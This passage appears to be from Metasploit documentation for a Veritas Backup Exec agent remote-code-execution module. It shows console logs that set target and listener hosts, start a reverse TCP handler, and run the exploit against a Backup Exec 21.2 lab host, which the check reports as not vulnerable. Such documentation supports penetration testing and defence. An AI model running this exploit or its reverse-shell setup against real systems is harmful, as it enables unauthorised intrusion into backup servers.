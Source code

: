 ```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.16.199.133 - Meterpreter session 2 closed.  Reason: User exit
```

### Windows; Backup Exec 21.2 (Backup Exec Remote Agent, revision 9.4) - NOT VULNERABLE
```
msf exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.180.135
rhosts => 172.16.180.135
msf exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.180.248
lhost => 172.16.180.248
msf exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.135:10000 - Checking vulnerability
[*] 172.16.180.135:10000 - Connecting to BE Agent service
[*] 172.16.180.135:10000 - Getting supported authentication types
[*] 172.16.180.135:10000 - Supported authentication by BE agent: BEWS2 (190), SSPI (4)
[*] 172.16.180.135:10000 - BE agent revision: 9.4
[*] 172.16.180.135:10000 - The target is not exploitable. SHA authentication is disabled
msf exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444
[*] 172.16.180.135:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.180.135:10000 - Checking vulnerability
[*] 172.16.180.135:10000 - Connecting to BE Agent service
[*] 172.16.180.135:10000 - Getting supported authentication types
[*] 172.16.180.135:10000 - Supported authentication by BE agent: BEWS2 (190), SSPI (4)
[*] 172.16.180.135:10000 - BE agent revision: 9.4
[-] 172.16.180.135:10000 - Exploit aborted due to failure: not-vulnerable: The target is not exploitable. SHA authentication is disabled "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf exploit(multi/veritas/beagent_sha_auth_rce) >
```
